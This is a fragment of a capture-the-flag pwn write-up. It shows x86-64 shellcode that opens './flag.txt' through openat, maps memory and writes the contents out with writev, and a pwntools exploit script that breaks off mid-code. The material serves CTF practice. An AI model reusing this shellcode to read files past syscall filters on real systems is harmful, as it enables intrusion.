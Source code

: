 ```cs
mov rdi,-100  //dfd
mov rsi,rsp  // path 
syscall

//mmap
mov rax,9
mov rsi,0x100
mov rdi,0
mov rdx,1
mov r10,2
mov r8,0x3e9
mov r9,0
syscall

//writev
mov rsi,rax // rax chứa buffer trả về 
mov r9,0x100  // iov_len
push r9
push rsi
mov rdx,1 // 1 struct
mov rdi,0x3e9 // fd
mov rsi,rsp
mov rax,0x20 //syscall number
```


exp : 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./syscalls")

context.binary = exe

p = process()
gdb.attach(p,gdbscript='''
           brva 0x00000000000012D6
           ''')

sc = asm('''
        mov rax,0x21
        mov rdi,1
        mov rsi,0x3e9
        syscall

        mov rax,0x101
        mov rdx,29816
        push rdx
        movabs rsi,8371742425456455470
        push rsi
        xor rdx,rdx
        xor rsi,rsi
        mov rdi,-100
        mov rsi,rsp
        syscall

        mov r8,rax
        mov rax,9
        mov rsi,0x100
        mov rdi,0
        mov rdx,1
```